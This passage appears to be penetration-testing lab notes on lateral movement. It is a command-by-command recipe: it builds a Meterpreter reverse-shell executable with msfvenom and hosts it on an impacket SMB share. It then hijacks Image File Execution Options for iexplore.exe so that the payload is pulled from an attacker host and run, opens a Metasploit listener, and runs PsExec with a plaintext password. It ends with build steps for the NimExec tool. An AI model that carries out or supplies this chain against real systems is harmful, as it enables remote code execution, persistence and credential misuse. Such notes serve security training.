 ```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=667 -f exe -o meterpreter.exe
```

Setup the smbshare
```bash
sudo impacket-smbserver share ./ -smb2support
```

Modify the Image File with execution of our payload
```poweshell
reg.exe add "\\srv02.inlanefreight.local\HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\iexplore.exe" /v Debugger /t reg_sz /d "powershell /c mkdir C:\Temp;Copy-Item \\10.10.15.156\share\ciccio.exe -Destination C:\temp\ciccio.exe;Start-Sleep -Seconds 5;C:\Temp\ciccio.exe"
```

Setup msfconsole listener 
```bash
msfconsole
use multi/handler
```

On target machine start the the internet explore or start manually the process.
```bash
.\PsExec.exe \\SRV02 -i -s -u inlanefreight\helen -p RedRiot88 powershell
```

```bash
 Start-Process "C:\Program Files\Internet Explorer\iexplore.exe"
```

## NimExec

Compile NimExec using nim 

```bash
nimble install ptr_math nimcrypto hostname
```

```bash
nim c -d:release --gc:markAndSweep -o:NimExec.exe Main.nim
```

